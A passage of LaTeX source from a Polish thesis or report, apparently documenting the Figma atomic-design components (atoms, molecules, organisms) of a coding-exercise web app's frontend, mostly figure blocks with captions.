    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/atoms/topic_atoms.png}
    \caption{Atomy przygotowane do budowy kafla tematu, w tym paski postępu ukończenia zadań.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.25\linewidth]{images/frontend/figma/atoms/exercise_atoms.png}
    \caption{Kafelek zadania z wariantami poziomu trudności (łatwy, średni, trudny).}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.25\linewidth]{images/frontend/figma/atoms/tabs_atoms.png}
    \caption{Zakładki edytora kodu z wariantami.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.25\linewidth]{images/frontend/figma/atoms/code_folders_atoms.png}
    \caption{Pozycje menu (foldery/pliki) w edytorze kodu z wariantami.}
\end{figure}

\subsubsection{Molekuły}
Komponenty wyższego poziomu posiadające już bliżej określoną funkcjonalność, takie jak górna belka, zestawy przycisków, elementy edytora kodu, czy pełen kafel tematu.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/molecules/top_bar_molecule.png}
    \caption{Warianty górnej belki.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.25\linewidth]{images/frontend/figma/molecules/buttons_molecule.png}
    \caption{Przyciski wykorzystywane w panelu kontekstowym zadania oraz w edytorze kodu.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/molecules/code_area_molecule.png}
    \caption{Obszar edytora kodu, pasek boczny i pasek zakładek.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/molecules/code_side_panels_molecule.png}
    \caption{Panele boczne edytora kodu - lista plików i opis zadania.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/molecules/exercise_context_molecule.png}
    \caption{Kontekst zadania.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/molecules/exercises_molecule.png}
    \caption{Lista zadań w kontekście tematu.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/molecules/label_combo_molecule.png}
    \caption{Etykieta z etykietą.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/molecules/topic_molecule.png}
    \caption{Kafelek tematu.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/molecules/topic_navigation_molecule.png}
    \caption{Pasek nawigacji w kontekście tematu i w obszarze kodowania.}
\end{figure}

\subsubsection{Organizmy}
Zorganizowane molekuły gotowe do scalania w pełne ekrany wykorzystując bazowe okno.

\begin{figure}[H]
    \centering
